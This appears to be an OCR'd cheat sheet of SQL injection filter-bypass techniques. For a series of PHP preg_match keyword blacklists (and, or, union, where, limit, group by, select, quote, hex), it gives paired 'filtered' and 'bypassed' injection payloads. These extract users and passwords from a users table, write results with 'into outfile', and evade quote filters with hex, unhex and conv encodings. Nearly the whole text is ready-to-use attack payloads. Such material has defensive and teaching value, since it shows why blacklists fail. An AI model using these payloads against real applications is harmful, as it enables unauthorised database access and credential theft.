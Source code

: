 		Filtered injection:	union select user, password from users
		Bypassed injection:	1 || (select user from users where user_id = 1) = 'admin'

		** Remark: you have to know table name, column name and some data in the table, otherwise you have to get it from information_schema.columns table using other statement 
		e.g. use substring function to get each character of table names.
		----------------------------------------------------------------------

		
		Keyword filer: 		and, or, union, where
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where)/i', $id)
		Filtered injection:	1 || (select user from users where user_id = 1) = 'admin'
		Bypassed injection:	1 || (select user from users limit 1) = 'admin'
		----------------------------------------------------------------------

		
		Keyword filer: 		and, or, union, where, limit
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit)/i', $id)
		Filtered injection:	1 || (select user from users limit 1) = 'admin'
		Bypassed injection:	1 || (select user from users group by user_id having user_id = 1) = 'admin'
		----------------------------------------------------------------------


		Keyword filer: 		and, or, union, where, limit, group by
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by)/i', $id)
		Filtered injection:	1 || (select user from users group by user_id having user_id = 1) = 'admin'
		Bypassed injection:	1 || (select substr(group_concat(user_id),1,1) user from users ) = 1
		----------------------------------------------------------------------

		
		Keyword filer: 		and, or, union, where, limit, group by, select
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by|select)/i', $id)
		Filtered injection:	1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1
		Bypassed injection:	1 || 1 = 1 into outfile 'result.txt'
		Bypassed injection:	1 || substr(user,1,1) = 'a'
		----------------------------------------------------------------------


		Keyword filer: 		and, or, union, where, limit, group by, select, '
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)
		Filtered injection:	1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1
		Bypassed injection:	1 || user_id is not null
		Bypassed injection:	1 || substr(user,1,1) = 0x61
		Bypassed injection:	1 || substr(user,1,1) = unhex(61)
		----------------------------------------------------------------------


		Keyword filer: 		and, or, union, where, limit, group by, select, ', hex
		----------------------------------------------------------------------
		PHP filter code:	preg_match('/(and|or|union|where|limit|group by|select|\'|hex)/i', $id)
		Filtered injection:	1 || substr(user,1,1) = unhex(61)
		Bypassed injection:	1 || substr(user,1,1) = lower(conv(11,10,36))
		----------------------------------------------------------------------
